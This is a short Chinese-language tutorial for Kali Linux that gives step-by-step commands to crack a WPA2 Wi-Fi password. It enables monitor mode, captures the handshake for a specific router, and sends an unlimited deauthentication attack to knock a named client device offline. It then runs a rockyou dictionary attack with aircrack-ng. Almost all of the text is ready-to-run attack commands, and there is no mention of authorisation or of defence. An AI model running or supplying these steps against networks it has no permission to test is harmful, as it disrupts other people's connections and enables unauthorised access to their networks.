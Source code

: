 总操作流程：
- 1、[开启](#kail-linux-01)
- 2、[抓包](#kail-linux-02)
- 3、[破解](#kail-linux-03)

***

# <a name="kail-linux-01" href="#" >开启</a>

>1、开启监听模式

```shell
ifconfig wlan0 up

airmon-ng start wlan0

ifconfig
```

- 成功标志

![](image/1-1.png)

>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```
![](image/1-2.png)

# <a name="kail-linux-02" href="#" >抓包</a>

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 6 -w wpa2 
```
 - c指定频道号
 - bssid指定路由器bssid
 - w指定抓取的数据包保存位置

![](image/1-3.png)

 > 2、发起攻击（新开一个窗口，监听与获取那个窗口不用关闭）

`注意：这步需要有真正连接WiFi的设备，才能进行断开设备握手抓包，不可以不对的密码连接上就断开握包`
 ```shell
 aireplay-ng -0 0 -a 78:02:F8:27:F8:BB -c 30:B4:9E:D7:DA:71 wlan0mon
 ```

- 0表示发起deauthentication攻击， 0为无限
- a指定无线路由器BSSID
- c指定强制断开的设备


- 成功标志

![](image/1-4.png)

# <a name="kail-linux-01" href="#" >破解</a>

```
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap

```
